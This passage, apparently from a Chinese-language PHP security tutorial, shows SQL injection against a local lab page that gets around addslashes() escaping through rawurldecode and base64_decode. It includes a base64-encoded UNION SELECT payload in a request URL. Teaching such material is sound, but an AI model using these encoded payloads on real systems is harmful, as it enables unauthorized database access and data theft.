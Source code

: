 <img src=".\图片\Snipaste_2023-04-08_16-47-21.png" alt="Snipaste_2023-04-08_16-47-21" style="zoom:80%;" />

```
$id = rawurldecode($id) 这个和上面效果一样
```

##### base64_decode 编码注入

`$id = base64_decode($id)`   //首先通过addslashes()过滤，然后urlencode解码

```http
http://127.0.0.1:8081/www.phpsec.com/sql/sql7.php?id=LTEnIHVuaW9uIHNlbGVjdCAxLDIsZGF0YWJhc2UoKSM=
```

<img src=".\图片\Snipaste_2023-04-08_16-59-10.png" alt="Snipaste_2023-04-08_16-59-10" style="zoom:80%;" />
